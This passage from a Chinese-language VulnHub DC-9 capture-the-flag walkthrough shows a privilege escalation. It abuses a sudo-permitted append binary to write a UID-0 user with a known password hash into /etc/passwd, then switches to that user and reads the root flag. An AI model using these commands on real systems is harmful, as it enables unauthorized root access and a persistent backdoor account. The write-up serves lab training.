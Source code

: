 2个 test.py,不过我估计 `/opt/devstuff/test.py` 才是我们需要的
```bash
cat /opt/devstuff/test.py
```

![](../../../../../assets/img/安全/实验/VulnHub/DC/DC9/21.png)

看起来是 test 的源码,功能是添加输入到目标的最后

那么接下来就简单了,直接向 passwd 文件中写用户,或直接向 sudo 配置文件写 ALL 都是可以提权的
```bash
echo 'test:sXuCKi7k3Xh/s:0:0::/root:/bin/bash' > /tmp/test
cd /opt/devstuff/dist/test/
sudo ./test /tmp/test /etc/passwd
su test
Password: toor

cd /root
ls
cat theflag.txt
```

![](../../../../../assets/img/安全/实验/VulnHub/DC/DC9/22.png)

提权成功,感谢作者 @DCUA7 制作的 DC 系列靶机
